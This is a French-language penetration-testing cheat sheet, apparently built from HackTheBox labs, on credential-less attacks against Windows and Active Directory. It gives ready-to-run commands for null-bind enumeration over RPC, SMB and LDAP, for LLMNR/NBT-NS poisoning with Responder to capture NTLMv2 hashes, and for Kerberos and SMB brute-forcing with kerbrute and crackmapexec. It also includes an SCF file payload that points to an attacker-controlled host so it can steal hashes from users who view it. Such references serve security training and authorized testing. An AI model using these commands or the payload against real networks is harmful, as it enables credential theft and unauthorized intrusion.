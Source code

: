 # Attaques Windows sans identifiants

### 1. Exploitation du null bind

> Exploitation des services autorisants la connexion sans identifiants
>
> Objectifs : récupérer des informations

#### 1.1. Accès RPC null bind

> Connexion anonyme à l'annuaire de l'AD.
>
> Objectifs : par exemple, consulter la liste des utilisateurs du domaine.

``` bash
$ rpcclient -p <PORT> -U "" -N <IP>
```

Voir [rpcclient](./rpcclient.md) pour consulter les actions réalisables.

#### 1.2. Accès SMB null bind

> Objectifs : Accéder à un share SMB sans idenfiants

```bash
$ smbclient -L '\\IP' -U ''%''

$ crackmapexec smb <IP> -u '' -p '' --shares
```

#### 1.3. Accès LDAP null bind (LDAP anonymous bind)

> Objectifs : lire des parties du LDAP

```bash
# Avec nmap
$ nmap -n -sV --script "ldap* and not brute" <IP_LDAP>

# Avec python
$ python3          
Python 3.9.9 (main, Nov 16 2021, 10:24:31) 
[GCC 11.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import ldap3
>>> server = ldap3.Server('10.10.11.129', get_info = ldap3.ALL, port=389)
>>> connection = ldap3.Connection(server)
>>> connection.bind()
>>> connection.search(search_base='DC=DOMAIN,DC=DOMAIN', search_filter='(&(objectClass=*))', search_scope='SUBTREE', attributes='*')
# Si false, pas exploitable
>>> connection.search(search_base='DC=DOMAIN,DC=DOMAIN', search_filter='(&(objectClass=person))', search_scope='SUBTREE', attributes='userPassword')
# Si false, pas exploitable
```

Si exploitable, dump l'intégralité du LDAP :

```bash
$ ldapdomaindump <IP_LDAP>
[*] Connecting as anonymous user, dumping will probably fail. Consider specifying a username/password to login with
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
```



### 2. Connexion anonyme

> Différent d'une session nulle.
>
> Références :
>
> - https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/jj852200(v=ws.11)
> - https://mpgn.gitbook.io/crackmapexec/smb-protocol/enumeration/enumerate-anonymous-logon

#### 2.1. Lister les shares de manière anonyme

> Objectif : lister les shares d'une machine

```bash
$ smbclient -L '\\dc01.timelapse.htb\' -N
# OU
$ crackmapexec smb <IP_DC> -u 'a' -p '' --shares  
```

#### 2.2. Connexion à un share acceptant la connexion anonyme

> Objectif : se connecter à un share

```bash
$ smbclient -N  \\\\dc01.timelapse.htb\\<Share_READABLE>
```



### 3. LLMNR/NBT-NS (MITM)

> Attaque Man-In-The-Middle, consistant à intercepter se faire passer pour la ressource demandée afin que la machine s'authentifie sur nous.
>
> LLMNR : Protocole de résolution de nom, utilisé pour chercher un FQDN sur le réseau afin de s'y connecter. 
>
> Ordre de recherche DNS par la machine : base locale (/etc/hosts) > LLMNR > serveur DNS (/etc/resolv.conf).
>
> Objectifs : récupérer le hash Net-NTLMv2 pour le craquer et obtenir le mot de passe de l'utilisateur (pas de pass-the-hash).

```bash
$ sudo responder -I eth0 -wFv
```



### 4. Upload de fichier SCF

> Dans le cas où un upload de fichier se fait sur un partage SMB et qu'une personne va regarder les fichiers uploadés
>
> Objectifs : Récupérer le hash NTLMv2 de l'utilisateur consultant le fichier uploadé

```bash
# payload.scf à upload
[Shell]
Command=2
IconFile=\\<IP_HOTE>\share\test.ico
[TaskBar]
Command=ToggleDesktop

# récupération du hash sur l'Hôte
$ sudo responder -wrf --lm -v -I tun0
```



### 5. Bruteforce

> Quand il n'y a plus rien d'autre à faire
>
> Objectif : obtenir un compte du domaine

- **Bruteforce d'un nom d'utilisateur :**

```bash
# Bruteforce pour obtenir un nom d'utilisateur valide auprès du ldap
$ nmap -n -sV --script ldap-brute -p 389,636 --script-args userdb=<USER_LIST> --script-args ldap.base='"dc=search,dc=htb"' <IP_LDAP>

# Bruteforce pour obtenir un nom d'utilisateur valide en passant par le protocole Kerberos (pré-authentification)
$ kerbrute userenum -d <DOMAIN.COM> <USERNAME_WORDLIST> --dc <DOMAIN_CONTROLLER>
```

- **Bruteforce d'un mot de passe :**

```bash
# Bruteforce d'un mot de passe d'un utilisateur connu via le protocole Kerberos (pré-authentification)
$ kerbrute bruteuser --dc <DOMAIN_CONTROLLER> -d <DOMAIN.COM> <PASSWORD_WORDLIST> <USER_VALIDE>    

# Bruteforce d'un mot de passe d'un utilisateur connu sur un partage SMB
$ crackmapexec smb <IP_DC> -u <USERS_VALIDES_WORDLIST> -p <PASSWORD_WORDLIST> --continue-on-success (pour parcourir toute la liste des utilisateurs fournies)
```

